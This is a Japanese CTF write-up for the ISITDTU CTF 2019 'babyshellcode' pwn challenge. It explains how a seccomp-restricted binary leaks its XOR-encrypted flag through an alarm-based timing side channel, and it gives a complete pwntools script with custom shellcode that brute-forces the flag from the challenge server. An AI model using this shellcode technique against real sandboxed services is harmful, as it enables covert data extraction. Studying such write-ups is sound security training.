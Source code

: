 # [pwn 738pts] babyshellcode - ISITDTU CTF 2019
64ビットです。
```
$ checksec -f babyshellcode
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols      No	0		2	babyshellcode
```
shellcode問題で、alarm以外のシステムコールがseccompで禁止されています。
一見無理ですが、よく見るとフラグを読み込む処理が最初にありました。
フラグは読み込まれると、ランダムな8バイトのデータとxorされます。
しかしこのCTFではフラグは`ISITDTU{`から始まるので鍵が求まります。
さて、今回のバイナリでは出力ができない上、サーバー側で3秒経つまでコネクションを継続するようになっています。
したがってTime-based attackが出来なさそうに見えますが、alarmが使えるので1秒でalarmを発行するように変更すればAlarmのメッセージが1秒で出力されます。これを利用すればフラグを1バイトずつチェックできます。前のInterKosenCTFやDEFCONで出た問題の応用という感じですかね。

```python
from pwn import *
import string

table = string.printable[:-5]
flag = "ISITDTU{"
#flag = "ISITDTU{y0ur_sh3llc0d3_Sk!LL_s0_g00000d}"
while True:
    x = len(flag)
    for c in table:
        #sock = remote("localhost", 2222)
        sock = remote("209.97.162.170", 2222)
        shellcode = asm("""
        // rdi = XOR KEY
        mov rsi, 0xcafe000
        mov rdi, [rsi]
        mov rbx, 0x7b55544454495349
        xor rdi, rbx

        // shift key
        xor rbx, rbx
        mov al, {x}
        mov bl, 8
        div rbx
        imul rdx, rbx
        mov rcx, rdx
        shr rdi, cl
        mov al, [rsi + {x}]
        xor rax, rdi
        cmp al, {c}
        jz loop
        xor rdi, rdi
        inc edi
        mov rax, 0x25
        syscall
        loop:
        jmp loop
        """.format(x=x, c=ord(c)), arch="amd64")
        assert len(shellcode) < 0x46

        sock.sendline(shellcode)
        try:
            if "timeout" in sock.recv():
                flag += c
                break
        except KeyboardInterrupt:
            exit()
        except:
            flag += c
            break
        sock.close()
    else:
        print("Something went wrong!")
        exit()
    print(flag)
```

# 感想
やっててよかったInterKosenCTF。